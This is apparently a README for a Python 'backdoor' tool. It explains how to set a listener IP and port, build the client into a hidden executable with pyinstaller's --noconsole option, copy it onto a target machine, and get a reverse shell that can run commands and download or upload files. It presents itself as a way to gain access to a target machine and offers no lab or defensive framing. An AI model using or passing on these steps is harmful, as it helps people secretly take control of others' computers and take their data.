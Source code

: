 # Backdoor Using Python

## For Server.py ->
[*] Keep server.py file in your host/listening machine (Ex. Linux).
    This will act as an listener for incoming connection from the targer machine.
[*] Open server.py using any text editor. 
[*] Specify your Host Machine's IP address and Port number (ex. 5555) in the [ sock.bind(('#host ip', #port)) ] section of the code.

## For Backdoor.py ->
[*] Open the file using any text editor.
[*] Repeat the step 3 from ''Server.py'' in the [ s.connect(('#host ip',#port)) ] section of the code.
[*] Copy this file onto a target machine you want to gain access to (ex. Windows).

# Steps to perform execution!

1) In your target machine, locate to the backdoor.py file.
2) Open directory in terminal, and type the following code:
   - pyinstaller backdoor.py --onefile --noconsole
3) This will create some additional files.
4) You gotta keep the 'dist' folder and you may delete the rest

-- IN THE HOST MACHINE --
1) Locate to the server.py file
2) Open the directory in terminal, and type: python3 server.py
3) It'll wait for incoming connection from the taget machine.

-------------
1) In the target machine, open the backdoor.exe file.
2) This wont trigger anything, as it will initiate socket connection to the host machine
3) As i've added a delay of 20 seconds prior to the connection, you should be able to access the shell to the target machine in just a few seconds.
4) Yay! You've now established a reverse shell connection to the target machine

#### You can run commands like whoami, ipconfig, cd, download and upload commands
